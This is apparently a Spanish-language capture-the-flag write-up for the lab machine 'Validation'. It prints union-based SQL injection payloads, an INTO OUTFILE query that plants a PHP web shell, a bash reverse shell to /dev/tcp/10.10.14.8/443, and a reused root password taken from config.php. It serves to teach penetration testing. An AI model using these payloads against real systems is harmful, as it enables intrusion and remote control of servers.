La maquina Validation se muestra la explotacion de las siguientes vulnerabilidades
- SQL injection
- XSS
- SQL  injection into outfile.

Una maquina sencilla pero con gran enseñanza de algunas vulnerabilidades y las diversas maneras que se pueden explotar

# Enumeración

Empezamos a enumerar los puertos abiertos del servidor, para eso hago uso de la herramiendo nmap

```shell
nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.116
```

La herramienta de nmap nos reporta los siguientes puertos abiertos:

```shell
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
80/tcp   open  http       syn-ack
4566/tcp open  kwtc       syn-ack
8080/tcp open  http-proxy syn-ack
```

Teniendo los puertos abiertos del servidor, procedemos a escanear los servicios y versiones que corren en dichos puertos.

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCgSpafkjRVogAlgtxt6cFN7sU4sRTiGYC01QloBpbOwerqFUoYNyhCdNP/9rvdhwFpXomoMhDxioWQZb1RTSbR5aCwkzwDRnLz5PKN/7faaoEVjFM1vSnjGwWxzPZJw4Xy8wEbvMDlNZQbWu44UMWhLH+Vp63egRsut0SkTpUy3Ovp/yb3uAeT/4sUPG+LvDgzXD2QY+O1SV0Y3pE+pRmL3UfRKr2ltMfpcc7y7423+3oRSONHfy1upVUcUZkRIKrl9Qb4CDpxbVi/hYfAFQcOYH+IawAounkeiTMMEtOYbzDysEzVrFcCiGPWOX5+7tu4H7jYnZiel39ka/TFODVA+m2ZJiz2NoKLKTVhouVAGkH7adYtotM62JEtow8MW0HCZ9+cX6ki5cFK9WQhN++KZej2fEZDkxV7913KaIa4HCbiDq1Sfr5j7tFAWnNDo097UHXgN5A0mL1zNqwfTBCHQTEga/ztpDE0pmTKS4rkBne9EDn6GpVhSuabX9S/BLk=
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9LolyD5tnJ06EqjRR6bFX/7oOoTeFPw2TKsP1KCHJcsPSVfZIafOYEsWkaq67dsCvOdIZ8VQiNAKfnGiaBLOo=
|   256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJOP8cvEQVqCwuWYT06t/DEGxy6sNajp7CzuvfJzrCRZ
80/tcp   open  http    syn-ack Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    syn-ack nginx
|_http-title: 403 Forbidden
8080/tcp open  http    syn-ack nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto 80

En el Puerto `80` corre el servicio http que es una web, donde se puede registrar el nombre y el pais.


Podemos observar que para el desarrollo del sitio web hiceron uso de `php`, con el cual ya podemos pensar en vías potenciales para explotar o vulnerar el sitio web. 



## Puerto 4566

En este puerto no se logra encontrar nada



## Puerto 8080 

En este tampoco logramos ver nada



# Analisis de Vulnerabilidades

## Puerto 80
Ahora en el Puerto 80, vamos a enviar los datos de registro del usuario, pero esta vez por `Burp Suite`. Probamos si es vulnerable a un SQl injection y por supuesto que lo es. 


SQL injection


# Explotacion

Encontrada la vulnerabilidad del SQL injection, se procedera a explotarla. 
## SQL injection




```sql
Brazil'union select schema_name from information_schema.schemata-- -
```

Enumerando descubrimos algunas bases de datos, las que mas nos llaman la atención son de `regsitration`  y `mysql`



Enumerando cada una de las base de datos y sus respectivas tablas, no encontramos ninguna credencial o usuarios validos para conseguir la intrusión en el servidor.

- Enumeracion de tablas de la base de datos de Mysql

```sql
username=seven&country=Brazil'union select table_name from information_schema.tables where table_schema='mysql'-- -
```
- Enumeracion de las columnas de la tabla user en la base de datos mysql

```sql
username=seven&country=Brazil'union select column_name from information_schema.columns where table_schema='mysql' and table_name='user'-- -
```

### MYSQL Write a shell

Al no poder listar credenciales y usuarios probamos si podemos cargar archivos al servidor, de la siguiente manera.

```sql
username=seven&country=Brazil'union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/Sie7e.php"-- -
```

Logramos cargar un archivos al servidor y podemos ejecutar comandos en este.


Ejecución del comando `ls` en el servidor



Ahora para poder entablarnos una revershell se podria de la siguiente manera


### Terminal N° 1

- Ponerse a la escucha con ncat indicando el puerto

```shell
ncat -lnvp 443
```



### Terminal N° 2

- Ejecutar el comando que se muestra a continuación indicano revershell

```shell
curl 10.10.11.116/Sie7e.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"'
```



# Post - Explotacion

Tenemos acceso a la maquina, sin mas misterio

## User ww-data



- user.txt



Enumerando los archivos de configuración de la web, encontramos un `config.php`, estos archivos suelen tener credenciales, esta credenciales es del usuario `root`

- Archivo config.php





```shell
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Haciendo uso de la credencial podemos lograr acceder como usuarios privilegiados (`root`)

## User root



# Recursos

- [https://deephacking.tech/sql-injection/](https://deephacking.tech/sql-injection/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-write-a-shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-write-a-shell)
- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [https://docs.oracle.com/cd/E19078-01/mysql/mysql-refman-5.0/information-schema.html#tables-table](https://docs.oracle.com/cd/E19078-01/mysql/mysql-refman-5.0/information-schema.html#tables-table)